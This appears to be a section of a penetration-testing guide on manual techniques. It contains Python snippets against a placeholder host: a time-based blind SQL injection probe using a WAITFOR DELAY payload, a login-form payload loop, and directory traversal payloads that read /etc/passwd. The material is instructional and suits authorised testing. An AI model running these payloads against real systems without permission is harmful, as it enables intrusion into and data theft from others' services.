 ### Key Manual Testing Areas
- **Web application inputs** (forms, parameters, headers)
- **Authentication mechanisms** (login, password reset, MFA)
- **Session management** (cookies, tokens, timeouts)
- **File upload functionality** (restrictions, execution)
- **API endpoints** (parameter manipulation, rate limiting)

---

## 🔄 Advanced Manual Techniques

### Time-Based Analysis
```python
# Measuring response times for blind vulnerabilities
import time
import requests

def test_blind_sqli(payload):
    start_time = time.time()
    response = requests.get(f'http://target.com/search?q={payload}')
    end_time = time.time()
    return end_time - start_time

# Test with sleep payload
time_taken = test_blind_sqli("'; WAITFOR DELAY '00:00:05';--")
if time_taken > 5:
    print("Potential blind SQL injection detected")
```

### Response Analysis
```python
# Analyzing response patterns
def analyze_responses(payloads):
    for payload in payloads:
        response = requests.post('http://target.com/login', 
                               data={'username': 'admin', 'password': payload})
        print(f"Payload: {payload}")
        print(f"Status: {response.status_code}")
        print(f"Length: {len(response.text)}")
        print(f"Time: {response.elapsed.total_seconds()}")
```

### Custom Script Development
```python
# Custom vulnerability testing script
import requests
import re

def test_directory_traversal(base_url, file_paths):
    traversal_payloads = [
        '../../../etc/passwd',
        '..\\..\\..\\windows\\system32\\drivers\\etc\\hosts',
        '....//....//....//etc/passwd'
    ]
    
    for payload in traversal_payloads:
        response = requests.get(f'{base_url}?file={payload}')
        if re.search(r'root:.*:0:0:', response.text):
            return f"Directory traversal found with payload: {payload}"
    
    return "No directory traversal detected"
```
